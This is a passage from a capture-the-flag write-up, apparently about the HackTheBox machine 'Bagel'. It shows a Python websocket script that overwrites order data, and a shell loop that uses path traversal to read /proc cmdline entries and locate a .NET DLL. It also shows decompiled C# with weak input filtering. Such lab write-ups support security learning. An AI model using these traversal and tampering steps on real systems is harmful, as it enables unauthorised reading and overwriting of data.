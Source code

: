 I tested this by changing `ReadOrder` to `WriteOrder` and creating this script here to connect:

```python
import websocket,json

ws = websocket.WebSocket()
ws.connect("ws://10.129.150.229:5000/")
order = {"WriteOrder":"test"}
data = str(json.dumps(order))
ws.send(data)
result = ws.recv()
```

When viewing the `/orders` page again, we see that I have successfully overwritten everything there.

```
$ curl http://bagel.htb:8000/orders
test 
```

The exploit has to do with how user input is not sanitised and the `json.dumps` function. Some type of deserialization exploit related to the DLL needs to be used here.

I decided to brute force the PIDs that were running on this machine, and I managed to find the DLL.

```
$ for i in $(seq 800 1000); do curl http://bagel.htb:8000/?page=../../../../proc/$i/cmdline -o -; echo "  PID => $i"; done 
...<REDACTED>...
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 916
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 917
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 918
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 919
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 920
dotnet/opt/bagel/bin/Debug/net6.0/bagel.dll  PID => 921
```

Now, I can download the DLL file and port it over to Windows for analysis with DnSpy. When opened, we find the code for 3 Order functions, 1 ReadFile function and the deserialize function I found.

{% code overflow="wrap" %}
```csharp
public object RemoveOrder { get; set; }		
public string WriteOrder
{
	get
	{
		return this.file.WriteFile;
	}
	set
	{
		this.order_info = value;
		this.file.WriteFile = this.order_info;
	}
}
public string ReadOrder
{
	get
	{
		return this.file.ReadFile;
	}
	set
	{
		this.order_filename = value;
		this.order_filename = this.order_filename.Replace("/", "");
		this.order_filename = this.order_filename.Replace("..", "");
		this.file.ReadFile = this.order_filename;
	}
```